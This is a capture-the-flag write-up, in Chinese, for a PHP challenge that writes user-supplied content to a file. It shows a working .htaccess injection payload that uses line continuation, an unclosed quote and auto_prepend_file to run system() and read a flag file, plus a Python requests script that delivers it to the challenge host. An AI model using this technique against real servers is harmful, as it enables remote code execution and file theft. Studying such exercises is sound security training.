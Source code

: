 ```php
    }
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

题目通过php_admin_flag设置了只解析index.php

```
ServerAdmin webmaster@localhost
DocumentRoot /var/www/html
php_admin_flag engine off

<Location /index.php>
	AllowOverride None
	Require all grante
    php_admin_flag engine on
</Location>
```

尝试写入`.htaccess`修改解析规则但在content后附加了`\nJust one chance`，由于htaccess的解析器解析错误而500，且htaccess没有多行注释

尝试后发现可使用`\`来拼接后一行达到吃掉换行的目的

```
ErrorDocument 404 a\
Just one chance
```

但这里由于空格的存在还是会解析错误，所以使用双引号（双引号没闭合htaccess的解析引擎能正常推断）

```
ErrorDocument 404 "a\
Just one chance
```

然后通过prepend来包含htaccess自身，在双引号中添加PHP代码

一样通过反引号绕过字符限制，最终payload

```
php_value auto_prepend_fi\
le ".htaccess"
ErrorDocument 404 "<?php system('cat /root/fl[a]g.txt'); ?>\
Just one chance
```

```python
import requests

url = 'http://1c79276efba8487ea2a79fb1ec248297c5e789d7f36e4a98.changame.ichunqiu.com/'
requests.get(url)
r = requests.get(url+'?filename=.htaccess&content=php_value%20auto_prepend_fi\%0Ale%20".htaccess"%0AErrorDocument%20404%20"<?php%20system(\'cat /root/fl[a]g.txt\');?>\\')
print(r.text)
```

***
